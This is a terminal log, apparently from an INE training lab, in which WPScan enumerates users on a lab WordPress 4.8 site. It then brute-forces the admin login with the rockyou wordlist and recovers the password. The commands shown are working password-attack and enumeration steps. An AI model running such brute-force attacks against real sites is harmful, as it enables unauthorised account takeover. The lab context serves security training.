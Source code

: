 
root@INE:~# wpscan --url http://192.72.172.3/ --enumerate u
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.20
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[i] It seems like you have not updated the database for some time.
[?] Do you want to update now? [Y]es [N]o, default: [N]
[+] URL: http://192.72.172.3/ [192.72.172.3]
[+] Started: Sat Oct  4 14:34:19 2025

Interesting Finding(s):

[+] Headers
 | Interesting Entry: Server: Apache/2.4.18 (Ubuntu)
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] robots.txt found: http://192.72.172.3/robots.txt
 | Found By: Robots Txt (Aggressive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://192.72.172.3/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/

[+] WordPress readme found: http://192.72.172.3/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] Upload directory has listing enabled: http://192.72.172.3/wp-content/uploads/
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: http://192.72.172.3/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 4.8 identified (Insecure, released on 2017-06-08).
 | Found By: Rss Generator (Passive Detection)
 |  - http://192.72.172.3/feed/, <generator>https://wordpress.org/?v=4.8</generator>
 |  - http://192.72.172.3/comments/feed/, <generator>https://wordpress.org/?v=4.8</generator>

[+] WordPress theme in use: twentyseventeen
 | Location: http://192.72.172.3/wp-content/themes/twentyseventeen/
 | Last Updated: 2022-01-25T00:00:00.000Z
 | Readme: http://192.72.172.3/wp-content/themes/twentyseventeen/README.txt
 | [!] The version is out of date, the latest version is 2.9
 | Style URL: http://192.72.172.3/wp-content/themes/twentyseventeen/style.css?ver=4.8
 | Style Name: Twenty Seventeen
 | Style URI: https://wordpress.org/themes/twentyseventeen/
 | Description: Twenty Seventeen brings your site to life with header video and immersive featured images. With a fo...
 | Author: the WordPress team
 | Author URI: https://wordpress.org/
 |
 | Found By: Css Style In Homepage (Passive Detection)
 | Confirmed By: Css Style In 404 Page (Passive Detection)
 |
 | Version: 1.3 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://192.72.172.3/wp-content/themes/twentyseventeen/style.css?ver=4.8, Match: 'Version: 1.3'

[+] Enumerating Users (via Passive and Aggressive Methods)
 Brute Forcing Author IDs - Time: 00:00:00 <========================================================================> (10 / 10) 100.00% Time: 00:00:00

[i] User(s) Identified:

[+] admin
 | Found By: Rss Generator (Passive Detection)
 | Confirmed By:
 |  Wp Json Api (Aggressive Detection)
 |   - http://192.72.172.3/wp-json/wp/v2/users/?per_page=100&page=1
 |  Rss Generator (Aggressive Detection)
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Sat Oct  4 14:34:22 2025
[+] Requests Done: 53
[+] Cached Requests: 8
[+] Data Sent: 12.605 KB
[+] Data Received: 508.926 KB
[+] Memory used: 183.117 MB


root@INE:~# wpscan --url http://192.72.172.3/ -U admin -P /usr/share/wordlists/rockyou.txt 
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.20
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[i] It seems like you have not updated the database for some time.
[?] Do you want to update now? [Y]es [N]o, default: [N]
[+] URL: http://192.72.172.3/ [192.72.172.3]
[+] Started: Sat Oct  4 14:38:15 2025

Interesting Finding(s):

[+] Headers
 | Interesting Entry: Server: Apache/2.4.18 (Ubuntu)
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] robots.txt found: http://192.72.172.3/robots.txt
 | Found By: Robots Txt (Aggressive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://192.72.172.3/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/

[+] WordPress readme found: http://192.72.172.3/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] Upload directory has listing enabled: http://192.72.172.3/wp-content/uploads/
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: http://192.72.172.3/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 4.8 identified (Insecure, released on 2017-06-08).
 | Found By: Rss Generator (Passive Detection)
 |  - http://192.72.172.3/feed/, <generator>https://wordpress.org/?v=4.8</generator>
 |  - http://192.72.172.3/comments/feed/, <generator>https://wordpress.org/?v=4.8</generator>

[+] WordPress theme in use: twentyseventeen
 | Location: http://192.72.172.3/wp-content/themes/twentyseventeen/
 | Last Updated: 2022-01-25T00:00:00.000Z
 | Readme: http://192.72.172.3/wp-content/themes/twentyseventeen/README.txt
 | [!] The version is out of date, the latest version is 2.9
 | Style URL: http://192.72.172.3/wp-content/themes/twentyseventeen/style.css?ver=4.8
 | Style Name: Twenty Seventeen
 | Style URI: https://wordpress.org/themes/twentyseventeen/
 | Description: Twenty Seventeen brings your site to life with header video and immersive featured images. With a fo...
 | Author: the WordPress team
 | Author URI: https://wordpress.org/
 |
 | Found By: Css Style In Homepage (Passive Detection)
 | Confirmed By: Css Style In 404 Page (Passive Detection)
 |
 | Version: 1.3 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://192.72.172.3/wp-content/themes/twentyseventeen/style.css?ver=4.8, Match: 'Version: 1.3'

[+] Enumerating All Plugins (via Passive Methods)
[+] Checking Plugin Versions (via Passive and Aggressive Methods)

[i] Plugin(s) Identified:

[+] wp-responsive-thumbnail-slider
 | Location: http://192.72.172.3/wp-content/plugins/wp-responsive-thumbnail-slider/
 | Last Updated: 2022-02-11T03:10:00.000Z
 | [!] The version is out of date, the latest version is 1.1.8
 |
 | Found By: Urls In Homepage (Passive Detection)
 | Confirmed By: Urls In 404 Page (Passive Detection)
 |
 | Version: 1.0 (100% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - http://192.72.172.3/wp-content/plugins/wp-responsive-thumbnail-slider/readme.txt
 | Confirmed By: Readme - ChangeLog Section (Aggressive Detection)
 |  - http://192.72.172.3/wp-content/plugins/wp-responsive-thumbnail-slider/readme.txt

[+] Enumerating Config Backups (via Passive and Aggressive Methods)
 Checking Config Backups - Time: 00:00:02 <=======================================================================> (137 / 137) 100.00% Time: 00:00:02

[i] No Config Backups Found.

[+] Performing password attack on Wp Login against 1 user/s
[SUCCESS] - admin / lawrence                                                                                                                          
Trying admin / xbox360 Time: 00:00:20 <                                                                       > (930 / 14345322)  0.00%  ETA: ??:??:??

[!] Valid Combinations Found:
 | Username: admin, Password: lawrence

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Sat Oct  4 14:38:45 2025
[+] Requests Done: 1070
[+] Cached Requests: 42
[+] Data Sent: 343.674 KB
[+] Data Received: 3.503 MB
[+] Memory used: 244 MB
[+] Elapsed time: 00:00:29

![[Pasted image 20251004121151.png]]


